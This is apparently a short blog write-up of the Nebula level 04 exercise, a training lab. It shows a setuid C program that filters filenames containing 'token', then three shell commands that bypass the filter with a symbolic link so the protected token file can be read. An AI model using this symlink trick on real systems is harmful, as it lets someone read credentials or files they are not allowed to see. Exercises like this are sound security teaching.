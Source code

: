 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level 04"
date: 2014-01-10 20:43:48 +0800
comments: true
categories: 
- Security
- Exercises
- Nebula
---
```


### About

This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04 . Files for this level can be found in /home/flag04.

<!-- more -->

### Solution

Source code for /home/flag04/flag04 is 

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
    printf("%s [file to read]\n", argv[0]);
    exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
    printf("You may not access '%s'\n", argv[1]);
    exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
    err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
    err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

This one is easy, just creating a soft link in the home directory of user *level04*, and making it readable for user *flag03* could bypass the check of the above code, of cause the name of the sofe link could not be *token* :-P.

``` bash
$ ln -s /home/flag04/token /home/level04/aa
$ chmod a+rx /home/level04
$ /home/flag04/flag04 /home/level04/aa
```

<!-- 06508b5e-8909-4f38-b630-fdb148a848a2 -->

And it works!

